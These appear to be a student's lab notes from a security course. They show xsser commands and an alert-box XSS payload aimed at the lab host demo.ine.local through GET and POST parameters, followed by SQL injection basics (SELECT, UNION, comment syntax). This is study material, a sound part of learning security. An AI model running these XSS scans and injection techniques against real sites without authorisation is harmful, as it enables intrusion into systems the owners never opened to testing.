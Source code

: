 ### XSSER Lab

Use burpsuite proxy to determine reqs sent. Both GET and POST are tested

Example XSSER usage:
POST
```bash
`xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```
Try Random payloads
```bash
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```
Custom alert payload
```bash
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```
Insert the final payload spit out by XSSER into the POST param in burpsuite
Eg payload,
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

GET
simply put XSS into the GET req
```bash
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote"
```
Custom payload and final payload same as POST req above.


# SQL injections
#sqlinjection #sqli 

Regular SQL statements
```sql
> SELECT name,description FROM products WHERE id=9;
```

```bash
SELECT <columns list> FROM <table> WHERE <condition>;
#also possible to select constants
SELECT 22, 'string', 0x12, 'another string';
```

UNION
adds a new row below thr first statement 
``` bash
<SELECT statement> UNION <other SELECT statement>;
```

Comments 
`#`  (hash symbol)
`-- -- ` (2 dashes followed by a space, add more dashes to be sure lol)
